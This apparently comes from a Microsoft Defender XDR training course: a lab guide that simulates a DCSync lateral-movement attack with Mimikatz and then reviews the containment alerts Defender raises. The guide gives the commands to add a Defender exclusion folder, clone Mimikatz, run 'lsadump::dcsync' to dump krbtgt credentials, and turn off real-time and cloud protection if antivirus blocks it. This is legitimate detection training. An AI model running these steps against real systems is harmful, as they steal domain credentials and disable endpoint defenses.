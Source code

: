 # Lab 13: Simulate and Detect Lateral Movement Attacks

## Overview

In this lab, you will simulate a Lateral Movement attack using the Mimikatz tool and detect it through Microsoft Defender for Identity. This task should only be performed in a controlled environment, running the attack will trigger Defender’s containment measures, logging you out of the virtual machine and preventing re-login for security reasons.

> **⚠ Important Usage Guidance:** Microsoft Defender for Office 365 may take some time to load certain results or complete specific labs from the backend. This is expected behavior. If the data does not appear after a couple of refresh attempts, proceed with the next lab and return later to check the results..

1. In Azure portal, Search for **Virtual machines (1)** and select **Virtual machines (2)**.

      ![VMrdp](./media/vm.png)

1. Select the virtual machine **s2vm-<inject key="DeploymentID" enableCopy="false" />** from the list.
   
      ![VMrdp](./media/xdr26.png)

1. At the beginning of the virtual machine page, click on **Connect (1)**, and from the drop-down select **Connect (2)**.

      ![VMrdp](./media/xdr27.png)

1. On the Connect to Virtual Machine page, select RDP, Choose the option to **Download RDP File.**

      ![VMrdp](./media/xdr28upd.png)

      >**Note:** You might see the warning option while downloading the rdp file. please click on **keep.**

1. Open the downloaded RDP file from the downloads.

      ![VMrdp](./media/xdr23.png)

1. Select Connect when prompted. You will get a warning that the .rdp file is from an unknown publisher. This is expected. In the Remote Desktop Connection window, select Connect to continue.

      ![VMrdp](./media/vm8.png)
   
1. In the Windows Security window, select **More Choices.**

      ![VMrdp](./media/xdr24.png)

 1. Then Use a different account. Enter **Username:** <inject key="Labvm Admin Username"></inject> **(1)** and **Password:** <inject key="Labvm Admin Password"></inject> **(2)** and then select **OK (3).**

      ![VMrdp](./media/vm6.png)

1. Select **Yes** to verify the identity of the virtual machine and finish logging on.

      ![VMrdp](./media/vm7.png)

1. You should now be connected to the virtual machine via Remote Desktop.

1. Open **PowerShell (Administrator)** from Windows search.

      ![image](./media/attack1.png)

1. Run the following command to create a folder named `Tools` and add it as an exclusion in Microsoft Defender so that files inside this folder are not scanned.

      ```shell
      New-Item -ItemType Directory -Force -Path "C:\Tools"
      ```

      ```
      Add-MpPreference -ExclusionPath "C:\Tools
      ```

1. Run the below command to download the Mimikatz tool in `C:\Tools` folder.

      ```
      cd C:\Tools
      ```

      ```
      git clone https://github.com/ParrotSec/mimikatz
      ```
    > **Note:** Mimikatz is an open-source tool primarily designed to extract authentication credentials from the memory of Windows operating systems

      ![image](./media/attack13.png)

1. Navigate to the below mentioned directory in Powershell.

      ```powershell
      cd mimikatz\x64
      ```

1. In the same PowerShell session, run the below command to run the mimikatz application

     ```powershell
     mimikatz.exe 
     ```

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

      ```shell
      lsadump::dcsync /domain:defenderxdr.internal /user:krbtgt
      ```

      > **Note:** If you see an error message indicating that the command failed, it is due to antivirus, perform the below steps and then run **step 16** again

      > 1. Navigate to Windows Security and click on **Virus & threat protection**.
      ![image](./media/attack1n1.png)

      > 2. Turn off **Real-time protection (1)** and **Cloud-delivered protection (2)**
      ![image](./media/attack1n2.png)

1. Once this command executes, Microsoft Defender’s attack disruption feature will log the user out of the Virtual Machine and prevent them from logging back in. It may take about 10-15 minutes to log out, please wait

1. Now, go back to **svm-<inject key="DeploymentID" enableCopy="false"/>** virtual machine and check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

      ![](./media/E1T3S3upd1.png)

1. Navigate to **Incidents** and review the incident with the tag **Lateral Movement**.

   ![](./media/E1T3S3upd2.png)

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names
     - **Lateral movement using remote logon by contained user blocked**
     - **Lateral movement using RDP blocked**

       ![](./media/E1T3S3upd.png)

      > **Note:** The user will be logged out of the virtual machine as part of the containment measures initiated by the Defender in response to the user's attempted lateral movement attack.

## Review

In this lab, you:

- Used the **Mimikatz tool** in PowerShell (Admin) to simulate a **DC Sync attack**.  
- Attempted to extract credentials of the **krbtgt account**.  
- Observed **automatic containment measures** triggered by Microsoft Defender for Identity.  
- Verified generated alerts in the Defender portal for **blocked lateral movement attempts** via remote logon and RDP. 

## You have successfully completed the lab. Click on Next to Continue

  ![Start Your Azure Journey](./media/rd_gs_1_9.png)
